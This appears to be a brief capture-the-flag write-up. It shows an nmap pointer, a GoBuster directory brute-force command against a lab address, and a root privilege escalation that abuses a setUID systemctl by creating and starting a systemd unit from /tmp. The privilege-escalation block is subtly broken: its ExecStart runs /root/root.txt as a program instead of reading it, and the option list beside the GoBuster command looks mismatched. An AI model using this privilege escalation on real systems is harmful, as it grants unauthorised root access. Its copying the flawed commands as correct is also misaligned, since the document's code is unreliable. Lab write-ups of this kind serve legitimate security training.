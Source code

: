 ## Use NMAP

For more info, visit [nmap room](./../nmap)

## GoBuster

- Using a fast directory discovery tool called `GoBuster`, you will locate a directory that you can use to upload a shell to.
- Lets first scan the website to find any hidden directories. To do this, we are going to use GoBuster.
- GoBuster is a tool used to brute-force URI's (directories & files), DNS sub-domains and virtual host names.
- use the following command.
- `gobuster dir -u http://10.10.131.12:3333 -w /usr/share/wordlists/dirb/common.txt`
```
-U - username  
-P - password
-c <http-cookies> - specify a cookie for simulating your auth
-p - proxy to use for requests
-e - print the full url's on the console

```

## Using systemctl for privilege escalation if it has a setUID file permission

```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "/root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

/bin/systemctl enable /tmp/root.service
/bin/systemctl start /tmp/root.service

cat /tmp/output


```
